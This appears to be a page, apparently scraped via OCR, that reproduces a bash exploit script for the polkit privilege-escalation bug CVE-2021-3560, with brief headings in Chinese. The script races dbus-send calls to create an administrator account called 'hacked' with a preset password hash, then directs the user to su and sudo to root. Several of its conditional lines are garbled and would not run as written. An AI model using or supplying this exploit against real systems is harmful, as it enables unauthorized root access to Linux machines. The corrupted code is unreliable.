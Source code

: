 <languages />

影響版本
--------

    Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)

EXP
---

    # Exploit Title: Polkit 0.105-26 0.117-2 - Local Privilege Escalation
    # Date: 06/11/2021
    # Exploit Author: J Smith (CadmusofThebes)
    # Vendor Homepage: https://www.freedesktop.org/
    # Software Link: https://www.freedesktop.org/software/polkit/docs/latest/polkitd.8.html
    # Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)
    # Tested on: Ubuntu 20.04, Fedora 33
    # CVE: CVE-2021-3560
    # Source: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

    #!/bin/bash

    # Set the name and display name
    userName="hacked"
    realName="hacked"

    # Set the account as an administrator
    accountType=1

    # Set the password hash for 'password' and password hint
    password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
    passHint="password"

    # Check Polkit version
    polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
    if [["$(apt_list_--installed_2>/dev/null|grep polkit]]; then
        echo "[*] Vulnerable version of polkit found"
    else
        echo "[!] WARNING: Version of polkit might not vulnerable"
    fi

    # Validate user is running in SSH instead of desktop terminal
    if [[-z_$SSH_CLIENT|]]; then
        echo "[!] WARNING: SSH into localhost first before running this script in order to avoid authentication prompts"
        exit
    fi

    # Test the dbus-send timing to load into exploit
    echo "[*] Determining dbus-send timing"
    realTime=$( TIMEFORMAT="%R"; { time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType ; } 2>&1 | cut -d " " -f6 )
    halfTime=$(echo "scale=3;$realTime/2" | bc)

    # Check for user first in case previous run of script failed on password set
    if id "$userName" &>/dev/null; then
        userid=$(id -u $userName)
        echo "[*] New user $userName already exists with uid of $userid"
    else
        userid=""
        echo "[*] Attempting to create account"
        while [[$userid_==_""|$userid == ""]]
        do
            dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
            if id "$userName" &>/dev/null; then
            userid=$(id -u $userName)
                echo "[*] New user $userName created with uid of $userid"
            fi
        done
    fi

    # Add the password to /etc/shadow
    echo "[*] Adding password to /etc/shadow"
    x=0
    while [ $x -lt 100 ]
    do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        x=$(($x + 1))
    done

    echo "[*] Exploit complete! If the password does not work, run the exploit again"
    echo ""
    echo "[*] Run 'su - $userName', followed by 'sudo su' to gain root access"
